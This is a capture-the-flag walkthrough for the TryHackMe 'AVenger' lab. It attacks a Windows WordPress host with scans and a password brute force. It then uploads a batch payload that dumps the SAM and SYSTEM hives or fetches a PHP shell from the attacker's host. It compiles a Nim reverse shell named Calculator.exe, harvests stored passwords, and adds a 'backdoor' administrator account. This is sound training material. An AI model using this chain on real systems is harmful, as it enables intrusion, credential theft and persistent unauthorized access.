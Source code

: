 # AVenger

**Room Link:** [https://tryhackme.com/r/room/avenger](https://tryhackme.com/r/room/avenger)

**Scans**

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (978).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (979).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (984).png" alt=""><figcaption></figcaption></figure>



### **TCP/80 - HTTP** <a href="#tcp-80-http" id="tcp-80-http"></a>

**Find Pages**

There were too many 404 and 403 in the scan so I changed to ffuf to ignore them.

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

**Kali**

```
ffuf -u http://$VICTIM/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fc 404,403 -e .php,.html,.txt
```

<figure><img src="../../.gitbook/assets/image (981).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (980).png" alt=""><figcaption></figcaption></figure>





The gift folder takes us to avenger.tryhackme

<figure><img src="../../.gitbook/assets/image (982).png" alt=""><figcaption></figcaption></figure>



**Add hostname to host file**

**Kali**

```
echo $VICTIM avenger.tryhackme  >> /etc/hosts
cat /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (983).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ffuf -u http://avenger.tryhackme/gift/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fc 404,403 -e .php,.html,.txt
```



**Kali**

```
 wpscan --url http://avenger.tryhackme/gift --enumerate p
```

<figure><img src="../../.gitbook/assets/image (987).png" alt=""><figcaption></figcaption></figure>

**Bruteforce admin page**

**Kali**

```
wpscan --url http://avenger.tryhackme/gift --passwords /usr/share/wordlists/rockyou.txt
```



## Initial Shell

<figure><img src="../../.gitbook/assets/image (988).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
git clone https://github.com/flozz/p0wny-shell.git
cd p0wny-shell/ 
subl exploit.bat
```

**exploit.bat**

<pre><code><strong>@echo off
</strong>
:: Check if the current user is NT AUTHORITY\SYSTEM
whoami /groups | find "S-1-5-18" > nul

if %errorlevel% equ 0 (
    :: Run commands for NT AUTHORITY\SYSTEM
    reg.exe save HKLM\SYSTEM C:\xampp\htdocs\system.bak
    reg.exe save HKLM\SAM C:\xampp\htdocs\sam.bak
) else (
    :: Run commands for other users
    curl http://$KALI:82/shell.php -o C:\xampp\htdocs\shell.php
)
</code></pre>

I tried bypassing the file type restriction with the shell above, I could see the bat file running by seeing that it try to grab the shell.php file but I couldn't find a place to save the file where I could also see it on the website.

**Kali**

```
python2 -m SimpleHTTPServer 82
```

<figure><img src="../../.gitbook/assets/image (989).png" alt=""><figcaption></figcaption></figure>

Nim reverse shell worked because they accept exe files&#x20;

**Kali**

<pre><code>git clone https://github.com/Sn1r/Nim-Reverse-Shell.git
cd Nim-Reverse-Shell/
<strong>apt install mingw-w64 -y
</strong></code></pre>

**Kali**

```
curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```

**Kali**

```
subl rev_shell.nim
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali #1**

```
/root/.nimble/bin/nim c -d:mingw  --app:gui --opt:speed -o:Calculator.exe rev_shell.nim
```

<figure><img src="../../.gitbook/assets/image (993).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (994).png" alt=""><figcaption></figcaption></figure>

**Kali #2**

```
rlwrap nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Privilege Esclation**&#x20;

Found some credentials.

**Victim**

```
type C:\xampp\htdocs\gift\wp-config.php
```

<figure><img src="../../.gitbook/assets/image (995).png" alt=""><figcaption></figcaption></figure>

From my computer I could access the mysql.

**Kali**

```
apt install mysql-client-core-5.7   
mysql -h$VICTIM -ugift -pSurpriseMF
```

I was able to find a password but couldn't crack it&#x20;

**Kali(mysql)**

```
select * from mysql -h$VICTIM -ugift -pSurpriseMF
use gift;
show tables;
select * from wp_users;
```

<figure><img src="../../.gitbook/assets/image (992).png" alt=""><figcaption></figcaption></figure>

I found a password

**Victim**

```
reg query HKLM /f password /t REG_SZ /s
```

<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
remmina
Username: hugo
Password: SurpriseMF123!
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I can run a administrator shell from the GUI

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
net user backdoor pass!123 /add
net localgroup Administrators "Remote Desktop Users"  backdoor /add
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v forceguest /t reg_dword /d 0 /f
```



**Kali**

```
remmina
Username: backdoor 
Password: pass!123
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
